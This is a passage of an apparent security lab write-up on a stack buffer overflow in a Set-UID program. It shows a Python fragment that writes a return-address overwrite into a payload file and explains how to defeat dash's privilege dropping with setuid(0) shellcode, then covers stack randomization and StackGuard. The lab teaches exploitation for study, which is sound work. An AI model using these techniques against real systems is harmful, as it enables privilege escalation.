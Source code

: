 ```python
buffer = 0x7fffffffd966
L      = 8     # Use 4 for 32-bit address and 8 for 64-bit address.

# Decide the return address value and place it in the payload.
ret    = buffer +  1296                          # This number should point to an address in main().
offset = (rbp - buffer) + L                      # place the 'ret' after $rbp 

content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

<details><summary>Brief explanation of exploit code</summary></details>

![task-4-b](https://github.com/iukadike/blog/assets/58455326/f26acfcd-8bdd-4956-90ba-ea49147bcfa1)


<br>

### Countermeasures

#### Dash’s Countermeasure

The bash shell is symbolically linked to the dash shell in the Ubuntu OS, and it drops privileges when it detects that the effective UID does not equal the real UID (which is the case in a Set-UID program).

To defeat this countermeasure, all we need to do is change the real UID, so it equals the effective UID. Thus, before we invoke the shell program, we just need to change the real UID to zero. We can achieve this by invoking setuid(0) before executing execve() in the shellcode.

<details><summary>Defeating Dash’s Countermeasure</summary></details>

**image**

___

#### Stack Address Randomization

Stack address randomization works by randomly changing the memory location where the stack is placed during each program execution (the memory address will be different each time the program runs). It is enabled in Linux systems via `$ sudo /sbin/sysctl -w kernel.randomize_va_space=2`

On 32-bit Linux machines, stacks only have 19 bits of entropy, which means the stack base address can have 524,288 possibilities. This number can be exhausted easily with the brute-force approach.

___

#### StackGuard Protection

StackGuard protection is implemented by modifying the compiler in a way that adds runtime checks during the execution of a program. StackGuard protection prevents buffer overflows by adding a canary value to the stack frame.
